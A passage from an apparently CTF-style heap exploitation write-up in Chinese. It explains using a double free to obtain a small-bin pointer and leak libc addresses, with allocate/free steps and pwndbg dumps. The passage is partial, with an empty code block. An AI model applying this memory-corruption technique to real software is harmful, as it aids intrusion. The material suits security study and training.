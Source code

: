 ```c
```

>   输入index，若标志位为1，打印*(24LL * v2 + a1 + 16)位置，长度为*(24LL * v2 + a1 + 8)的内容。



没有uaf，内存free掉后不能查看其中的内容，但是可以double free获得指向small bin的index，释放后通过dump打印出来。

首先分配一些相同大小的fast chunk ，在分配一个small chunk，释放掉其中的一个fast chunk。

```text
allocate(10)#chunk0
allocate(10)#chunk1
allocate(10)#chunk2
allocate(10)#chunk3
allocate(80)#chunk4
free(1)
```

```text
pwndbg> x/32gx  
0x5579684280000x557968428000:	0x0000000000000000	0x0000000000000021 <=chunk0
0x557968428010:	0x0000000000000000	0x0000000000000000
0x557968428020:	0x0000000000000000	0x0000000000000021 <=chunk1
0x557968428030:	0x0000000000000000	0x0000000000000000
0x557968428040:	0x0000000000000000	0x0000000000000021 <=chunk2
0x557968428050:	0x0000000000000000	0x0000000000000000
0x557968428060:	0x0000000000000000	0x0000000000000021 <=chunk3
0x557968428070:	0x0000000000000000	0x0000000000000000
0x557968428080:	0x0000000000000000	0x0000000000000061 <=chunk4
0x557968428090:	0x0000000000000000	0x0000000000000000
0x5579684280a0:	0x0000000000000000	0x0000000000000000
0x5579684280b0:	0x0000000000000000	0x0000000000000000
0x5579684280c0:	0x0000000000000000	0x0000000000000000
0x5579684280d0:	0x0000000000000000	0x0000000000000000
0x5579684280e0:	0x0000000000000000	0x0000000000020f21
0x5579684280f0:	0x0000000000000000	0x0000000000000000
pwndbg> x/32gx &main_arena
0x7f063731bb20 <main_arena>:	0x0000000000000000	0x0000557968428020
0x7f063731bb30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7f063731bb40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7f063731bb50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7f063731bb60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7f063731bb70 <main_arena+80>:	0x0000000000000000	0x00005579684280e0
0x7f063731bb80 <main_arena+96>:	0x0000000000000000	0x00007f063731bb78
0x7f063731bb90 <main_arena+112>:	0x00007f063731bb78	0x00007f063731bb88
0x7f063731bba0 <main_arena+128>:	0x00007f063731bb88	0x00007f063731bb98
0x7f063731bbb0 <main_arena+144>:	0x00007f063731bb98	0x00007f063731bba8
0x7f063731bbc0 <main_arena+160>:	0x00007f063731bba8	0x00007f063731bbb8
0x7f063731bbd0 <main_arena+176>:	0x00007f063731bbb8	0x00007f063731bbc8
0x7f063731bbe0 <main_arena+192>:	0x00007f063731bbc8	0x00007f063731bbd8
0x7f063731bbf0 <main_arena+208>:	0x00007f063731bbd8	0x00007f063731bbe8
0x7f063731bc00 <main_arena+224>:	0x00007f063731bbe8	0x00007f063731bbf8
0x7f063731bc10 <main_arena+240>:	0x00007f063731bbf8	0x00007f063731bc08
```
